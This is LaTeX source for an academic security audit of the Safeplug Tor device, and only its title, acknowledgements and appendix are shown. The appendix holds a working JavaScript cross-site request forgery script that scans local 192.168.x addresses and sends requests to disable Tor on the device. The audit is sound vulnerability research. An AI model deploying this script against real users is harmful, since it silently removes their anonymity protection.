 \documentclass[12pt, letterpaper]{article}
\title{Security Audit of Safeplug}
\author{Annie Edmundson and Anna Kornfeld Simpson}
\begin{document}
\maketitle






%
%





\section{Acknowledgements}
We would like to express our gratitude to Ed Felten for helping us procure the Safeplugs and to Josh Kroll for donating a lot of time and his computer to the routing effort.  We also thank whoever left the very nice set of screwdrivers on our desks!



\newpage
\appendix
\section{\\Javascript for Website Attack} \label{App:AppendixA}


\begin{lstlisting}
function go() { 
   var IP_SCANS = 255;
   var prefix = "http://192."
   var SECOND_START = 168;
   var SECOND_END = 168;
   var THIRD_START = 0;
   var THIRD_END = 1;

   for (var i = SECOND_START; i <= SECOND_END; i++) {
      for (var j = THIRD_START; j <= THIRD_END; j++) {
         for (var k = 0; k < IP_SCANS; k++) 
         {
            var tryip = prefix +  i + "." + j + "." + k;
            var req = new XMLHttpRequest();
            req.open("POST", tryip + "/svc/xspctrl/disableTor", true);
            req.timeout = 1000;
            req.send();
         }
      }
   }
}
\end{lstlisting}
\end{document}
